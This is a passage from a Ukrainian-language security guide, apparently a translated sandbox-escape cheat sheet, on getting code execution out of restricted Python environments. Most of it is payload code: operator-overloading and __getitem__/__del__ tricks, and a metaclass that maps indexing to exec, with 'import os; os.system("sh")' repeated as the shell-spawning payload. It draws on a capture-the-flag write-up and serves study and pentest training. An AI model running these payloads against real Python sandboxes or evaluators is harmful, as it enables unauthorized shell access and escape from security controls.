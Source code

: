 ```python

# These lines abuse directly the previous class to get RCE
rce = RCE() #Later we will see how to create objects without calling the constructor
rce["print('Hello from __getitem__')"]
rce + "print('Hello from __add__')"
del rce

# These lines will get RCE when the program is over (exit)
sys.modules["pwnd"] = RCE()
exit()

# Other functions to overwrite
__sub__ (k - 'import os; os.system("sh")')
__mul__ (k * 'import os; os.system("sh")')
__floordiv__ (k // 'import os; os.system("sh")')
__truediv__ (k / 'import os; os.system("sh")')
__mod__ (k % 'import os; os.system("sh")')
__pow__ (k**'import os; os.system("sh")')
__lt__ (k < 'import os; os.system("sh")')
__le__ (k <= 'import os; os.system("sh")')
__eq__ (k == 'import os; os.system("sh")')
__ne__ (k != 'import os; os.system("sh")')
__ge__ (k >= 'import os; os.system("sh")')
__gt__ (k > 'import os; os.system("sh")')
__iadd__ (k += 'import os; os.system("sh")')
__isub__ (k -= 'import os; os.system("sh")')
__imul__ (k *= 'import os; os.system("sh")')
__ifloordiv__ (k //= 'import os; os.system("sh")')
__idiv__ (k /= 'import os; os.system("sh")')
__itruediv__ (k /= 'import os; os.system("sh")') (Note that this only works when from __future__ import division is in effect.)
__imod__ (k %= 'import os; os.system("sh")')
__ipow__ (k **= 'import os; os.system("sh")')
__ilshift__ (k<<= 'import os; os.system("sh")')
__irshift__ (k >>= 'import os; os.system("sh")')
__iand__ (k = 'import os; os.system("sh")')
__ior__ (k |= 'import os; os.system("sh")')
__ixor__ (k ^= 'import os; os.system("sh")')
```
#### Створення об'єктів за допомогою [metaclasses](https://docs.python.org/3/reference/datamodel.html#metaclasses)

Головне, що метакласи дозволяють нам робити, — **створити екземпляр класу без прямого виклику конструктора**, шляхом створення нового класу, у якого цільовий клас виступає метакласом.
```python
# Code from https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/ and fixed
# This will define the members of the "subclass"
class Metaclass(type):
__getitem__ = exec # So Sub[string] will execute exec(string)
# Note: Metaclass.__class__ == type

class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
pass # Nothing special to do

Sub['import os; os.system("sh")']

## You can also use the tricks from the previous section to get RCE with this object
```
#### Створення об'єктів за допомогою винятків
